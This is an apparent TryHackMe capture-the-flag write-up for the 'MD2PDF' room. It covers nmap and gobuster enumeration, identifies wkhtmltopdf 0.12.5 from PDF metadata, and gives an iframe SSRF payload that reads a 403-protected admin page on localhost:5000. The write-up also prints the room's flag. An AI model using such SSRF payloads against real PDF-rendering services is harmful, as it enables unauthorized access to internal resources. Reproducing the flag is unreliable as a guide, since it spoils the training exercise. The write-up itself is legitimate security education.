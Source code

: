 ### MD2PDF TryHackMe

### Difficulty = Easy

###  Description: Hello Hacker! TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF. This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

Nmap Scan:

```
└─$ nmap -sCV 10.10.174.101 -p22,80,5000 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-11 01:23 WAT
Nmap scan report for 10.10.174.101
Host is up.

PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
80/tcp   filtered http
5000/tcp filtered upnp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.75 seconds

```

Checking the web server on port 80 shows that it converts markdown file to pdf
![image](https://user-images.githubusercontent.com/113513376/218225529-7bc01174-6686-4a9b-a582-8469db003229.png)

So if i include things markdown uses it will be converted to pdf
![image](https://user-images.githubusercontent.com/113513376/218227544-e3e7083b-0c3b-4db5-a0b8-108c3f598587.png)
![image](https://user-images.githubusercontent.com/113513376/218227568-a270702e-dd8f-47f8-a238-ed28d7403bbb.png)


Now i'll download the generated pdf file to check out the metadata

```
┌──(mark㉿haxor)-[~/Desktop]
└─$ file document.pdf                       
document.pdf: PDF document, version 1.4, 0 pages
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop]
└─$ exiftool document.pdf
ExifTool Version Number         : 12.44
File Name                       : document.pdf
Directory                       : .
File Size                       : 13 kB
File Modification Date/Time     : 2023:02:11 01:25:32+01:00
File Access Date/Time           : 2023:02:11 01:25:33+01:00
File Inode Change Date/Time     : 2023:02:11 01:25:32+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.5
Producer                        : Qt 4.8.7
Create Date                     : 2023:02:11 00:19:54Z
Page Count                      : 1
Page Mode                       : UseOutlines
```

Ok so we see the creator name `wkhtmltopdf 0.12.5` I'll search google to know if there's publicly known exploit it
![image](https://user-images.githubusercontent.com/113513376/218226141-d361cfa9-bc45-442a-92c7-d03f316d72d1.png)
![image](https://user-images.githubusercontent.com/113513376/218226171-ea30edb1-b3d9-42a5-aea6-5ea24d8c4e67.png)

Reading about the [exploit](https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently) shows that we can use iframe tag and perform Server Side Request Forgery

```
Payload: <iframe src="http://localhost/" width="1000" height="2000">`
```

But using that payload is not what we want cause we need the flag not the web page of the web server running on port 80

Now i'll run gobuster to see if there's any interesting thing

```
└─$ gobuster dir -u http://10.10.174.101/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.174.101/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/02/11 01:05:06 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
Progress: 4612 / 4615 (100.00%)
===============================================================
2023/02/11 01:07:12 Finished
===============================================================
```

There's an admin directory which when accessed gives 403
![image](https://user-images.githubusercontent.com/113513376/218227204-d6591ee0-3b2d-4688-abe3-5e21432bd0dd.png)

Cool so now what we can do is to leverage the SSRF vulnerability and view the admin directory on port 5000
![image](https://user-images.githubusercontent.com/113513376/218227301-9bc2b6b5-1615-4153-a05b-d7ec3e220c81.png)

```
Payload: <iframe src="http://localhost:5000/admin" width="1000" height="2000">`
```

On submitting the payload we get the flag xD
![image](https://user-images.githubusercontent.com/113513376/218227325-9ea44126-4fc5-493b-88e7-914836fb58f9.png)

```
Flag: flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

And we're done 

<br> <br>
[Back To Home](../../index.md)
